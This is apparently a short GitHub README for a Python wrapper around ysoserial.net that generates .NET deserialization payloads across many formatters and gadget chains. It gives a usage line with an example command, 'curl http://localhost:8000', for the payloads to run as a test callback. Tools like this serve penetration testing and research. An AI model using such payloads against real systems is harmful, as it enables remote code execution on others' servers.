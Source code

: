 # ysoserial_wrapper
a wrapper which generates multiple payloads for different formatters and gadgets ysoserial has to offer

## Usage
python payload_generator.py [cmd] [exe-path]
python payload_generator.py "curl http://localhost:8000" "C:\\\\Users\\User\\\\ysoserial.net\\\\ysoserial\\\\bin\\\\Debug\\\\ysoserial.exe"
